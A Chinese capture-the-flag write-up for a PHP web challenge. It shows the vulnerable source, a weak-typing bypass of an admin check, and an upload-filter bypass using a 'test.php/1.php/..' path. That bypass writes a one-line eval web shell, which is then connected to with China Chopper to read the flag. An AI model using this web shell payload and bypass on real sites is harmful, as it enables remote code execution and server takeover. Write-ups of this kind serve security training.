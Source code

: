 ## 题目描述

工控云管理系统项目管理页面解析漏洞

## 思路

打开题目，点击左侧导航进入项目管理页

![20190907175624.png](https://raw.githubusercontent.com/handbye/images/master/20190907175624.png)

可看到可以查看源码

![20190907175654.png](https://raw.githubusercontent.com/handbye/images/master/20190907175654.png)

源码如下：

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>cetc7</title>
  </head>
  <body>
    <?php
    session_start();

    if (!isset($_GET[page])) {
      show_source(__FILE__);
      die();
    }

    if (isset($_GET[page]) && $_GET[page] != 'index.php') {
      include('flag.php');
    }else {
      header('Location: ?page=flag.php');
    }

    ?>

    <form action="#" method="get">
      page : <input type="text" name="page" value="">
      id : <input type="text" name="id" value="">
      <input type="submit" name="submit" value="submit">
    </form>
    <br />
    <a href="index.phps">view-source</a>

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>

  </body>
</html>
```

对源码进行审计

![20190907175802.png](https://raw.githubusercontent.com/handbye/images/master/20190907175802.png)

这段说当session为admin时可以上传文件，文件会保存到`uploaded/backup`目录下，但是使用黑名单过滤掉了`ph(p[3457]?|t|tml)`这些后缀。

![20190907175957.png](https://raw.githubusercontent.com/handbye/images/master/20190907175957.png)

这段说当传入的id值浮点值不能为1，但是id的最后一个数必须为9，session才能为admin。

利用php弱类型语言的特性可轻松绕过这一限制。

如下：

![20190907180230.png](https://raw.githubusercontent.com/handbye/images/master/20190907180230.png)

当id为1a9时可符合上面的要求。

![20190907180310.png](https://raw.githubusercontent.com/handbye/images/master/20190907180310.png)

![20190907180646.png](https://raw.githubusercontent.com/handbye/images/master/20190907180646.png)

可看到现在已经是admin用户了，那就继续上传文件拿到shell。原本想的这里是否可以进行注入，是代码中使用了`mysql_real_escape_string()`函数 , 该函数用于转义SQL语句中使用的字符串中的特殊字符 , 防御SQL注入 . 虽然可以利用宽字符注入绕过这个防御机制 , 但是要求目标站点使用GBK编码 . 这些细节信息我都不知道 , 所以想要注入是比较难的.

那么如何访问上传的文件已经不再是问题 , 需要做的仅仅是突破这个正则过滤 . 正则对文件后缀进行限制 . 所以关键点还是在文件后缀名上

如何突破文件后缀名的限制?主要思路有如下三点

一种是Web中间件的解析漏洞 , 因为已经知道中间件是Apache2 , 使用的是PHP . 所以无非就是Apache解析漏洞或者PHP CGI解析漏洞

一种是通过上传.htaccess文件 , 该文件是Apache的一大特色 . 其中一个功能便是修改不同MIME类型文件使用的解析器 . 但要使用该功能需要Apache在配置文件中设置AllowOverride All , 并且启用Rewrite模块 , 经过测试发现上传的.htaccess无法生效

```php
# 举个例子 : 上传 .htaccess 文件 , 其中写入如下内容
 <FilesMatch "shell.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
# 此时 , shell.jpg 会被解析为PHP文件
# 但是经过测试这里 .htaccess 功能被禁用了
```

罕见文件后缀 , 想要解析PHP文件 , 并非后缀要是*.php . 如果查看mime.types , 会发现很多文件后缀都使用了application/x-httpd-php这个解析器

![20190907181021.png](https://raw.githubusercontent.com/handbye/images/master/20190907181021.png)

其中 phps 和 php3p 都是源代码文件 , 无法被执行 . 而剩下所有的后缀都被正则表过滤 , 所以这种方式也无法成功上传可执行文件

所以最后还是回到了中间件解析漏洞上 , 但是经过测试发现并不是常规的解析漏洞 , 而是利用了一个Linux的目录结构特性 , 请看下面代码

![20190907181102.png](https://raw.githubusercontent.com/handbye/images/master/20190907181102.png)

创建了一个目录为1.php , 在 1.php 下创建了一个子目录为 2.php 。Linux下每创建一个新目录 , 都会在其中自动创建两个隐藏文件。

![20190907181148.png](https://raw.githubusercontent.com/handbye/images/master/20190907181148.png)

其中 `..` 代表当前目录的父目录 , `.`代表当前目录 , 所以这里访问 `./1.php/2.php/..` 代表访问 `2.php`的父目录 , 也就是访问 `1.php` 。

因此这里构造数据包时 , 可以构造如下POST数据

```php
con=<?php @eval($_POST[cmd]);?>&file=test.php/1.php/..
```

![20190907181726.png](https://raw.githubusercontent.com/handbye/images/master/20190907181726.png)

然后访问上传目录

![20190907181816.png](https://raw.githubusercontent.com/handbye/images/master/20190907181816.png)

可看到已将test.php上传了上去。

使用菜刀连接，即可得到shell，然后找到falg即可

![20190907182101.png](https://raw.githubusercontent.com/handbye/images/master/20190907182101.png)

![20190907182114.png](https://raw.githubusercontent.com/handbye/images/master/20190907182114.png)

参考：

- [http://www.guildhab.top/?p=481](http://www.guildhab.top/?p=481)
